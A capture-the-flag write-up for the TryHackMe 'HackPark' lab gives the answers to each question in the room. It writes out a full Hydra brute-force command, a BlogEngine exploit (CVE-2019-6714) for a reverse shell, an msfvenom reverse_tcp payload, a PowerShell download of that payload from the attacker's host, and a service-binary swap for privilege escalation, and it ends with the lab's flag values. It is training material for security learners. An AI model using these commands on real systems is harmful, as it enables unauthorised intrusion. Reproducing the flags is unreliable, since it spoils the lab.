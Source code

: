 # TryHackMe - HackPark

Bruteforce a websites login with Hydra, identify and use a public exploit then escalate your privileges on this Windows machine!

## Task 1  Deploy the vulnerable Windows machine

###  - Whats the name of the clown displayed on the homepage?

`pennywise`

## Task 2  Using Hydra to brute-force a login

###  - We need to find a login page to attack and identify what type of request the form is making to the webserver. Typically, web servers make two types of requests, a GET request which is used to request data from a webserver and a POST request which is used to send data to a server.You can check what request a form is making by right clicking on the login form, inspecting the element and then reading the value in the method field. You can also identify this if you are intercepting the traffic through BurpSuite (other HTTP methods can be found here).What request type is the Windows website login form using?

`POST`

###  - Now we know the request type and have a URL for the login form, we can get started brute-forcing an account.Run the following command but fill in the blanks:hydra -l <username> -P /usr/share/wordlists/<wordlist> <ip> http-post-formGuess a username, choose a password wordlist and gain credentials to a user account!

`hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.37.242 http-post-form "/Account/login.aspx?ReturnURL=/admin:__VIEWSTATE=6Qpl4BNzq%2BQIvMubXh2uopSvRuv5f12M89N1oiVCc27f54nZFehpq2sAbHyFD6HeceZZoPrO%2FUyWS6gH4I1y37xPDIrvBpkPGUqCkdXeQyN1mFfARRJNSBefCQakXH37QLA%2Flw%2BwtdsSAIY4ub%2F3TtH1%2Br4f2e24OmNcYeh3GqY48cYO&__EVENTVALIDATION=s9DMm%2BDemAoNXEUmyBtfllDxFzYZxgg2kyUFwx43%2FynqcUEtlJGdH3F12Yn4tnXhi%2BUtg0SyylksDrrAiBvH3zk6r5DcuV8ucrUIckzbFyxkaAXbgSUSAKOvDLf8oVt%2BRsFrpBXQujWWgbmPlz2sUCQaF9yGTjheWquQEqJXVl07CA0p&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed"`

`1qaz2wsx`

## Task 3  Compromise the machine

###  - Now you have logged into the website, are you able to identify the version of the BlogEngine?

`3.3.6.0`

###  - Use the exploit database archive to find an exploit to gain a reverse shell on this system. What is the CVE?

`https://www.exploit-db.com/exploits/46353`

`CVE-2019-6714`

###  - Using the public exploit, gain initial access to the server.Who is the webserver running as?

`After downloading the exploit, I renamed the file to "PostView.ascx" and uploaded it. I then started a netcat listener and navigated to  http://10.10.10.10/?theme=../../App_Data/files on the blogengine website to run my "PostView.ascx" file.`

`iis apppool\blog`

## Task 4  Windows Privilege Escalation

`Created a payload for rev shell in msfvenom, started a python http.server, used a powershell script to pull the metasploit payload onto the machine. The reasons for this was to have a stable shell and allow for more functionality.`

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.6.80.72 LPORT=9001 -f exe > shell.exe`

`python3 -m http.server`

`powershell -c "Invoke-WebRequest -Uri 'http://10.6.80.72:8000/shell.exe' -OutFile 'C:\Windows\Temp\shell.exe'"`

`Execute the shell.exe by navigating the netcat shell and running ./shell.exe`

###  - You can run metasploit commands such as sysinfo to get detailed information about the Windows system. Then feed this information into the windows-exploit-suggester script and quickly identify any obvious vulnerabilities.What is the OS version of this windows machine?

`Windows 2012 R2 (6.3 Build 9600)`

###  - Further enumerate the machine.What is the name of the abnormal service running?

`ps`

`WindowsScheduler`

###  - What is the name of the binary you're supposed to exploit?

`Found in the logs that every 30 seconds it would execute message.exe as root`

`Message.exe`

###  - Using this abnormal service, escalate your privileges!What is the user flag (on Jeffs Desktop)?

`Changed the name of our shell.exe to Message.exe to gain root priv because windows schedulers has service access.`

`759bd8af507517bcfaede78a21a73e39`

###  - What is the root flag?

`7e13d97f05f7ceb9881a3eb3d78d3e72`

## Task 5  Privilege Escalation Without Metasploit

###  - Now you know how to pull files from your machine to the victims machine, we can pull winPEAS.bat to the system using the same method! (You can find winPEAS here)WinPeas is a great tool which will enumerate the system and attempt to recommend potential vulnerabilities that we can exploit. The part we are most interested in for this room is the running processes!Tip: You can execute these files by using .\filename.exeUsing winPeas, what was the Original Install time? (This is date and time)

`Use the upload feature in metasploit to upload winPEAS.exe.`

`8/3/2019, 10:43:23 AM`

